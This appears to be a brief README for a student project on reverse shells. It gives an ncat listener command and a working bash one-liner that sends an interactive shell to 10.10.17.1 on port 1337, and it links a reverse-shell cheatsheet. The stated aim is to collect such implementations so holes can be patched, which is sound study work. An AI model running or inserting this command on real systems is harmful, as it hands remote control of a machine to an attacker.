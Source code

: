 # Reverse Shell

<img src="https://miro.medium.com/v2/resize:fit:1024/1*CyVqkmA7wLYaippCGRXW5w.jpeg" alt="why reverse shell" width="600"/>


## first you need a listener
listener example
```bash
ncat -l -p 1337
```
This listens to the TCP port 1337 for ip like 10.10.17.1
## Bash is simplest way to connect
bash reverse shell example
```bash
/bin/bash -i >& /dev/tcp/10.10.17.1/1337 0>&1
```
## There are even more that can be implemented
- PHP reverse shell
- Java reverse shell
- perl reverse shell
- python reverse shell
- etc

## There are countless resources
### Cheatsheet for reverse shell
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

## Real world examples
1. BrokenSesame vulberability in alibaba PostGreSQl databases
    - 


# 390 Project 
The idea behind our project would be to find and aggregate reverse shell implementations. This would allow various vulnerabilities to be patched.
